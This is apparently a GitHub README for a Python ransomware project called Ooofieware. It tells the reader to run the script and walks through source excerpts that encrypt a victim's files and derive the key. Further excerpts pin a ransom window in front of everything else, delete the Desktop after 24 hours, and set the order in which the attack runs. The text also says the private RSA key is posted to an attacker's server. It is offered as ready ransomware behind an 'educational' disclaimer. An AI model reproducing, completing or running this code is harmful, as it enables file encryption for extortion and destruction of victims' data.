

# Ooofieware - A ransomware in Python



## :pushpin: Quick Start

First, make sure the `.show_sym_key` method in `oofieware.py` is commented out. This method is meant only for debugging purposes, as it writes the symmetric AES key used to encrypt the files to the Desktop.

Run oofieware.py.

## :biohazard: Introduction 

This is a ransomware purely written in Python. It contains all the features a real ransomware might need, such as sending the private RSA key to a remote server, automatically erasing the system after 24 hours if a ransom is not paid, and of course a window with a skull that refuses to go away.

I wrote this as I've been hearing of ransomware for sometime, but never tried to write it myself. So I finally overcame my procrastination and wrote this.

Note that this ransomware is meant for EDUCATIONAl purposes only. In the process of writing this, I educated myself on how ransomware code works, and had to think from the perspective of a malicious actor to make it as realistic as possible. I do not support or condone any criminal activity, and I am not responsible for the actions of anyone who might use this.

Before we delve into the code, special thanks to [@w3w3w3](https://github.com/ncorbuk) for inspiring me to write this. I took reference from his ransomware, though of course I added some of my own features and ways of doing things. The things we can learn from the code of others never ceases to amaze me.

## :computer: Diving into the code

The ransomware is written using OOP, and all the methods are defined in a central class. Let's take a look at some of the methods. I will not be going through everything, only the parts I feel needs more explaining.

Firsly, in `__init__`, there is an arg called gen_rsa that defaults to True. If set to False, the attacker can ship the ransomware with a preset public key, which is used to encrypt the AES-256 symmetric key which was used to encrypt the vistim's files. If left as the default, the victim's machine is used to generate the RSA keys, the private one of which will be sent via a POST request to the attacker's server.

### gen_sym_key()

```py
secure_pw = os.urandom(32)
salt = os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=500000,
)

self.key = base64.urlsafe_b64encode(kdf.derive(secure_pw))
```

For `gen_sym_key()`, I used this method to generate the AES-256 key instead of directly using Fernet.generate_key() as this gives a more secure key.

### crypt_system()

```py
if not (os.stat(file_path).st_size > self.LARGE_SIZE):
    self.crypt_file(file_path)
else:
    t = threading.Thread(target=self.crypt_file, args=(file_path,))
    self.threads.append(t)
    t.start()
```

This snippet checks the size of the file. If the file is larger than `self.LARGE_SIZE` (which is defined as 50 mil bytes, or 50mb), the encryption for that file is started in a separate thread to improve efficiency.

### wait_till_finish()

As can be seen in the example above, each thread is appended to the array `self.threads`.

```py
def wait_till_finish(self):
    for thr in self.threads:
        thr.join()

    self.threads = []
```

The method I originally set to directly run after crypt_system was `enc_key()`, which encrypts the symmetric key with the public key. And it sets the `self.encrypter` object, which is used to encrypt files, to none. This causes a potential exception as when the `self.encrypter` object is set to None, one/multiple of the threads used to encrypt files > 50MB may still be running, so setting the `self.encrypter` object to None stops the encryption of these large files and causes an exception. Hence, I added this `wait_till_finish` method, which takes the threads previously appended to `self.thread`s and applies the `.join()` method to them, effectively blocking the main loop from proceeding to `enc_key` until all the large files have been encrypted as well. This prevents the exception and ensures that the encryption is completed. 

self.threads is then set to None to facilitate later decryption of the system.

### elevate_ransom_window()

```py
while True:
    topWindow = pg.getActiveWindow()
    if topWindow.title != "Ransom Note":
        try:
            win = pg.getWindowsWithTitle('Ransom Note')[0]
            win.minimize()
            win.restore()
        except:
            continue
    sleep(10) # take away completely to annoy the fuck out of victim
```

This constantly makes the ransom window the top window with fullscreen enabled. However, for debugging purposes, a sleep(10) is introduced. If this sleep(10) is removed, the victim's computer would be essentially inoperable due to this window repeatedly forcing itself to the front. At least until perhaps the victim shuts down the computer. Still, that does not change the fact that their files would already be encrypted, as the ransom window only shows itself WHEN all files have been encrypted.

Note that `elevate_ransom_window` is started in a separate thread and is started before `show_ransom_window()`, so that it does not interfere with the blocking call `window.mainloop` that is used in `show_ransom_window()`. The same is true for the method `detect_dec_key`.

### detect_dec_key()

This method is also called in a separate thread before `show_ransom_window()`. It scans the victim's Desktop every 5 seconds to check if a decryption key has been given, and if one is given, the decryption of the files will begin.

### show_ransom_window() and erase_system()

`show_ransom_window` shows the ransom window, which is made using the python module [Tkinter](https://docs.python.org/3/library/tkinter.html). However, there is one part I would like to explain.

```py
eraseTimer = threading.Timer(60*60*24, self.erase_system)
eraseTimer.start()
```

```py
def erase_system(self):
    for root, dirs, files in os.walk(self.Desktop, topdown = True):
        try:
            shutil.rmtree(os.path.join(root, dirs))
        except OSError as e:
            pass
```

This starts a timer in a separate thread, a timer that erases the victim's entire Desktop and all the folders and files inside it after 24 hours, if the ransom is not paid. The erase_system() is what will be called after 24 hours.

### The Order

```py
def attack():
    oof = oofieWare(gen_rsa = True)
    oof.gen_sym_key()
    oof.gen_rsa_keypair()
    oof.crypt_system()
    oof.show_sym_key() # for debugging purposes, DON'T use this line irl
    oof.wait_till_finish()
    oof.encrypt_key()
    elevate = threading.Thread(target = oof.elevate_ransom_window)
    elevate.start()
    detect = threading.Thread(target = oof.detect_dec_key)
    detect.start()
    oof.show_ransom_window()
    
attack()
```

Methods should be called in the pre-defined order to prevent any unexpected occurences. Note that `show_sym_key()` is only for debugging and should not be used in an actual attack.

## :keyboard: Fin

I hope you find this useful. Take care and remember not to run this by accident on your host OS!